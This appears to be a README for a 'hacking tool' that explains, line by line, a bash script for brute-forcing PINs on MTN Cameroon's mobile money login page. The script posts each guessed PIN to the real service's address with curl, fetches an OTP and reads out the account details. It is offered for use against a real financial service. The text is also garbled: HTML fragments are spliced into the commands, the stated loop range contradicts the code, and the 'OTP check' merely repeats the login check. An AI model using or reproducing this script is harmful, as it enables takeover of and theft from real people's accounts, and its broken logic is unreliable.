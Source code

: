 # MTN-MoMo-Cameroon-Hacking-Tool
MTN MOMO CAMEROON ACCOUNT BALANCE CHECKING 
The script provided is a brute-force password cracker for the MTN Cameroon mobile money website. It works by first getting the request headers from the website. Then, it iterates from 0 to 9999, generating a different password for each iteration. For each password, it makes a POST request to the login page, passing the username and password as parameters. If the request is successful, the script will get the OTP from the website and check if it is valid. If the OTP is valid, the script will get the account details and print them out.
The first line, #!/bin/bash, tells the operating system that the script is to be interpreted by the bash shell.
The second line, read username, prompts the user to enter the username.
The third line, headers=$(curl -k -s -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9" 'https://196.202.232.201/MoMoWebAppMTNCameroon/login.xhtml' | grep -E ': ' | cut -d ' ' -f1), gets the request headers from the website. The curl command makes a GET request to the login page and the grep command extracts the request headers. The cut command then takes the first value from each header line.
The fourth line, for i in {00000..99999}, iterates from 0 to 9999.
The fifth line, params='loginForm=loginForm&loginForm[username]=$username&loginForm[password]=<span class="math-inline">i&loginForm\[j\_idt19\]\=Login&javax\.faces\.ViewState\=1319890406535641868\:\-8273346397217720005'\, creates the request parameters for the POST request. The username and password are passed as parameters, along with other values that are required by the website. * The sixth line, `response=(curl -k -X POST --data "$params" --header "$headers" 'https://196.202.232.201/MoMoWebAppMTNCameroon/login.xhtml'), makes the POST request to the login page. Thecurlcommand makes a POST request with the specified parameters and headers. The response from the website is stored in the variableresponse`.
The seventh line, if [[ "<span class="math-inline">response" \=\= "j\_security\_check" \]\]; then\, checks if the response from the website is equal to "j_security_check". This means that the login was successful and the password has been found. * The eighth line, `otp=(curl -k -s -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9" 'https://196.202.232.201/MoMoWebAppMTNCameroon/pages/otpverification.xhtml' | grep -E ': ' | cut -d ' ' -f1), gets the OTP from the website. Thecurlcommand makes a GET request to the OTP verification page and thegrepcommand extracts the OTP. Thecut` command then takes the first value from the OTP line.
The ninth line, if [[ "<span class="math-inline">response" \=\= "j\_security\_check" \]\]; then\, checks if the OTP is valid. This can be done by making a POST request to the OTP verification page with the OTP as a parameter. If the request is successful, the OTP is valid. * The tenth line, `response=(curl -k -X GET --header "$headers" 'https://mobilemoney.mtncameroon.net/MoMoWebAppMTNCameroon/pages/selectedaccountdeatils.xhtml'), gets the account details from the website. Thecurlcommand makes a GET request to the account details page with the specified headers. The response from the website is stored in the variableresponse`.
